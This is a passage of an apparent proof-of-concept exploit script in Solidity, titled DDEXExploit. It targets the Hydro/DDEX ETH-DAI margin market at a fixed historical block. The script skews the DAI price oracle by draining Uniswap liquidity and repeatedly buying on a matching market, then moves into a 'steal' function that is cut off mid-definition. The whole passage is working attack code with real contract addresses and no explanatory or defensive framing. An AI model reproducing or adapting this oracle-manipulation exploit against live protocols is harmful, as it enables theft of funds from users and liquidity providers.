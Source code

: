 ```javascript
contract DDEXExploit is Script, Constants, TokenHelper {
    OracleLike private constant ETH_ORACLE = OracleLike(0x8984F1CFf1d614a7404b0cfE97C6fa9110b93Bd2);
    DaiOracleLike private constant DAI_ORACLE = DaiOracleLike(0xeB1f1A285fee2AB60D2910F2786E1D036E09EAA8);
    
    ERC20Like private constant HYDRO_ETH = ERC20Like(0x000000000000000000000000000000000000000E);
    HydroLike private constant HYDRO = HydroLike(0x241e82C79452F51fbfc89Fac6d912e021dB1a3B7);
    
    uint16 private constant ETHDAI_MARKET_ID = 1;
    
    uint private constant INITIAL_BALANCE = 25000 ether;
    
    function setup() public {
        name("ddex-exploit");
        blockNumber(8572000);
    }
    
    function run() public {
        begin("exploit")
            .withBalance(INITIAL_BALANCE)
            .first(this.checkRates)
            .then(this.skewRates)
            .then(this.checkRates)
            .then(this.steal)
            .then(this.cleanup)
            .then(this.checkProfits);
    }
    
    function checkRates() external {
        uint ethPrice = ETH_ORACLE.getPrice(HYDRO_ETH);
        uint daiPrice = DAI_ORACLE.getPrice(DAI);
        
        printf("eth=%.18u dai=%.18u\n", abi.encode(ethPrice, daiPrice));
    }
    
    uint private boughtFromMatchingMarket = 0;
    
    function skewRates() external {
        skewUniswapPrice();
        skewMatchingMarket();
        require(DAI_ORACLE.updatePrice());
    }
    
    function skewUniswapPrice() internal {
        DAI.getFromUniswap(DAI.balanceOf(address(DAI.getUniswapExchange())) * 75 / 100);
    }
    
    function skewMatchingMarket() internal {
        uint start = DAI.balanceOf(address(this));
        WETH.deposit.value(address(this).balance)();
        WETH.approve(address(MATCHING_MARKET), uint(-1));
        while (DAI_ORACLE.getEth2DaiPrice() != 0) {
            MATCHING_MARKET.buyAllAmount(DAI, 5000 ether, WETH, uint(-1));
        }
        boughtFromMatchingMarket = DAI.balanceOf(address(this)) - start;
        WETH.withdrawAll();
    }
    
    function steal() external {
        HydroLike.Market memory ethDaiMarket = HYDRO.getMarket(ETHDAI_MARKET_ID);
        HydroLike.BalancePath memory commonPath = HydroLike.BalancePath({
            category: HydroLike.BalanceCategory.Common,
```